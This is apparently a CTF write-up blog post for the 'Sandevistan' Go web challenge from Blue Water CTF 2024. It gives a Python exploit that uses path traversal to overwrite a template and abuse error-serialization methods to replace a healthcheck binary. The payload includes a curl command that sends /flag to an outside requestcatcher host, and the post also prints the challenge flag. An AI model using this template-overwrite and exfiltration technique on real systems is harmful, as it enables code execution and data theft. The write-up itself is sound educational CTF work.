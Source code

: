 ```yaml
---
layout: post
title:  "sandevistan - Blue Water CTF 2024"
date:   2024-10-13 00:00:00 -0400
render_with_liquid: false
---
```


[Blue Water CTF 2024](https://ctftime.org/event/2479)

# Sandevistan (Web)

Go web chall

## Solution

You overwrite a template then you need to find some useful gadget on `user` or `cyberware` to get the flag.
There is a healthcheck function that calls `/bin/true`.
So the idea is to overwrite that with something.
But that doesn't work because the file will start with `ERROR ...` and not run.
`NewError` plus `SerializeErrors` allows us to write to any offset in a file.
So we just do that.

```python
import requests
import urllib


REMOTE = "http://sandevistan.chal.perfect.blue:28418/"

# create user
res = requests.post(
    REMOTE + "user",
    data="username=xad",
)

bin = (
    """{{ .NewError "asdsadasd" "/bin/true" }}
rs -> {{ range $index, $value := .Errors }}{{ $index }} - {{ $value }}\n{{ end }}
alize -> {{ .SerializeErrors "#!/bin/bash\\ncurl https://lalalalalallalala.requestcatcher.com/ -d @/flag\\n" 0 0 }}
thcheck ->  {{ .UserHealthcheck }}"""
    + " " * 2000
)
bin = urllib.parse.quote_plus(bin)
res = requests.post(
    REMOTE + "cyberware",
    headers={"Content-Type": "application/x-www-form-urlencoded"},
    data=f"username=../tmpl/user.html&name={bin}",
)

# get user, new template
res = requests.get(
    REMOTE + "user",
    headers={"Content-Type": "application/x-www-form-urlencoded"},
    data="username=xad",
)
```

## Flag
`bwctf{YoU_kNoW_yOu_d1dnt_l0s3_Ur_53Lf-coNtR0L._LEt'5_start_at_the_r4inB0w}`

shafouz - 2024/10/13
